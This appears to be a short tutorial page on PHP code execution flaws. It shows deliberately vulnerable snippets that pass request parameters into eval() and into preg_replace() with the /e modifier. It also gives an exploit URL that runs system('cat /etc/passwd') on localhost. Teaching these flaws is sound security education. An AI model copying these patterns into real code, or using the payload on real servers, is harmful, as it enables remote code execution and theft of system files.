 ### PHP Code Execution via eval() function
```
In the vulnerable code below eval() function is used without any input validation. This
allows user  to control the value passed via name paramater allowing attacker to execute system commands.

```

```
<?php
  if (!isset($_GET["name"])) {
    header("Location: /?name=fucche");
    die();
  }
?>

<?php 
  $str="echo \"Hello ".$_GET['name']."!!!\";";

  eval($str);
?>
```

#### Exploit 
![Screenshot at 2022-11-20 12-54-23](https://user-images.githubusercontent.com/85208639/202890506-4fa06e60-4e3e-4e6e-a675-a6c9b714283f.png)

### PHP Code Execution via preg_replace() function [ Works in Older Version of PHP (<= 5.5.5) ]
```
preg_replace is a function in php that is used to replace a string with another string based on pattern. In older version of php if we add full controller pattern we can add modifier and  after replacement we can use modifier to eval result as a php code.
```


#### Vulnerable Code

Here a value is taken from paramater base, matches the pattern with string "user" and if the pattern matched, it replaces the string with test. Upon
adding e flag after regex the application executes the final string test as a php code.

```
<?php
  if (!isset($_GET["new"])) {
    header("Location: /?new=test&pattern=/user/&base=Hello user");
    die();
  }
?>

<?php
  echo preg_replace($_GET["pattern"], $_GET["new"], $_GET["base"]); 
?>
```

#### Exploit 
http://localhost/?new=system('cat /etc/passwd');&pattern=/user/e&base=Hello user

